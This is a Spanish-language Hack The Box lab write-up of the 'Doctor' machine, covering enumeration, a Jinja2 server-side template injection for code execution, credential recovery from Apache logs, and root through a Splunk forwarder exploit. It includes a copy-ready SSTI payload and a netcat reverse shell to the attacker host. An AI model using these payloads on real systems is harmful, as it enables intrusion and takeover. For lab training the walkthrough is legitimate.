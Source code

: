 ```yaml
---
layout: post
title: HTB_Doctor.md
date: 2023/07/10
---
```


# Doctor {-}

## Introduccion {-}

La maquina del dia se llama Doctor.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/kaHpsn1HLp4/0.jpg)](https://www.youtube.com/watch?v=kaHpsn1HLp4)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.209
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.209
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80,8089 10.10.10.209 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 80     | http          | Web, Fuzzing       |                      |
| 8089   | https splunkd | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.209
```

Es un Apache 2.4.41 en un Ubuntu. Vemos un email `info@doctors.htb` Podria ser un usuario y un dominio. Añadimos el dominio al `/etc/hosts`

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.209`, vemos una pagina de un cabinete de doctor. Navigamos un poco en la web pero no hay nada interesante.
Si entramos en la web por el dominio `http://doctors.htb` vemos una nueva pagina. Se esta aplicando virtual hosting. Esta pagina es un login.
El wappalizer nos dice que es un Flask en python.

Aqui de seguida pensamos en un **Template Injection**.

De primeras creamos un nuevo usuario en el panel de registro. 
Vemos que nuestra cuenta a sido creada con un limite de tiempo de 20 minutos. Nos loggeamos y vemos un boton con un numero 1.
Si pinchamos, vemos en la url `http://doctors.htb/home?page=1`. Miramos si se puede aplicar un LFI

```bash
http://doctors.htb/home/page=/etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd%00
http://doctors.htb/home/page=../../../../../../../../etc/passwd?
```

Aqui no vemos nada.

Hay un link en la pagina para redactar un nuevo mensaje.

```bash
Title: EEEEEEEEE
Content: Hola
```

Aqui vemos que el mensaje esta visible en la pagina.

> [ ! ] NOTAS: Tito nos habla de probar un RFI (Remote File Inclusion) que seria algo que probar pero nos adelanta que no funcciona en este caso.

Aqui miramos de Injectar etiquetas HTML y XSS pero no funcciona.
## Vulnerability Assessment {-}

### Server Side Template Injection {-}


```bash
Title: {{9*9}}
Content: {{2*3}}
```

Vemos que en esta parte no nos lo interpreta. Si miramos el codigo fuente, vemos que hay un link que esta en la url `http://doctors.htb/archive` y que esta
en beta testing.

Si vamos a la url en question, hay una pagina blanca pero si otra vez, miramos el codigo fuente, en este caso de la pagina `/archive`, podemos ver que hay 
un numero **81**. Quiere decir que en el directorio **archive** esta interpretando el **SSTI** de los mensajes.

El caso del SSTI nos permite injectar comandos a nivel de systema usando el systema de templating. Si vamos a la carpeta **Server Side Template Injection** de
la pagina de [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) podemos copiar la Injeccion
de Jinja2 **Exploit the SSTI by calling Popen without guessing the offset**





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

1. Nos ponemos en escucha por el puerto 443
1. Creamos un nuevo mensaje con el payload

    ```bash
    Title: {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    Content: TEST
    ```

1. Recargamos la url `http://doctors.htb/archive`

Boom... estamos en la maquina victima.

```bash
whoami
#Output
web

hostname -I
```

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Userpivoting {-}

```bash
cd /home
grep "$sh" /etc/passwd
cd /root
id
```

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo `adm`. Podriamos visualisar los logs

```bash
cd /var/log
grep -r -i "pass"
grep -r -i "pass" 2>/dev/null
```

Vemos en el **apache2/backup** que hay una peticion POST para resetear una contraseña `Guitar123`

```bash
su shaun
Password: Guitar123

cat /home/shaun/user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
cd /
ls -l
cd /opt
```

Aqui vemos un directory splunkforward. Nos hace pensar que teniamos un puerto 8089 abierto con un splunkd.
Si vamos a esta url `https://10.10.10.209:8089` vemos un servicio splunkd.

Aqui podemos tirar de un exploit en el github de [cnotin](https://github.com/cnotin/SplunkWhisperer2) que permite hacer un
Local o un Remote privilege escalation. En este caso utilizaremos el Remoto.

```bash
git clone https://github.com/cnotin/SplunkWhisperer2
cd SplunkWhisperer2
ls
python3 PySplunkWhisperer2_remote.py
```

aqui vemos como se utiliza. Intentamos primeramente enviar una traza ICMP a nuestra maquina para ver si funcciona.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. lanzamos el exploit para enviar una traza ICMP

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.7"
    ```

Vemos que recibimos la traza. Ahora nos mandamos una reverse shell

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit para entablar una reverse shell

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash 10.10.14.7 443"
    ```

La conneccion esta entablada.

```bash
whoami
#Output
root
```
